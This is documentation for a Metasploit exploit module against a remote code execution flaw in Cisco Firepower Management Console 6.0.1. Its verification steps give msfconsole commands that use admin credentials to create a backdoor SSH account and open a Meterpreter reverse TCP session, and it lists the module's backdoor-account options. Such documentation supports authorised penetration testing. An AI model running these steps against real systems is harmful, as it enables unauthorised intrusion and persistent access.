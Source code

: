 This module exploits a vulnerability in Cisco Firepower Management Console RCE. It will
create a backdoor SSH account via HTTPS, and then obtain a native payload session
in SSH.

## Vulnerable Application

This exploit was specifically written against 6.0.1 (build 1213). To test, you can find the
virtual appliance here:

https://software.cisco.com/download/release.html?mdfid=286259687&softwareid=286271056&release=6.0.1&flowid=54052



## Verification Steps

1. Start msfconsole
2. ```use exploit/linux/http/cisco_firepower_useradd```
3. ```set password [https console password for admin]```
4. ```set rhost [IP]```
5. ```set payload linux/x86/meterpreter/reverse_tcp```
6. ```set lhost [IP]```
7. ```exploit```
8. You should get a session

## Options

**USERNAME** The username for Cisco Firepower Management console

**Password** The password for Cisco Firepower Management cosnole

**NEWSSHUSER** The SSH account to create. By default, this is random.

**NEWSSHPASS** The SSH password for the new account. By default, this is also random.

**SSHPORT** In case for some reason, the SSH changed, otherwise this is 22 by default.
